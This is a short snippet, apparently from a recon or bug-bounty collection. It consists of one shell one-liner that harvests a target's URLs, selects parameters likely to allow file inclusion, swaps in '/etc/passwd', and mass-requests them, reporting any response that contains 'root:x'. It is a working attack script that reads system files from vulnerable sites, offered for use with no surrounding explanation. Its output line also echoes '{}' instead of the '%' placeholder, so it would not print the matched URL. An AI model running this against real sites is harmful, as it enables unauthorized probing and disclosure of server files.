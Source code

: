  gau target | egrep -v ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | gf lfi | qsreplace "/etc/passwd" | xargs -I % -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! {}"'
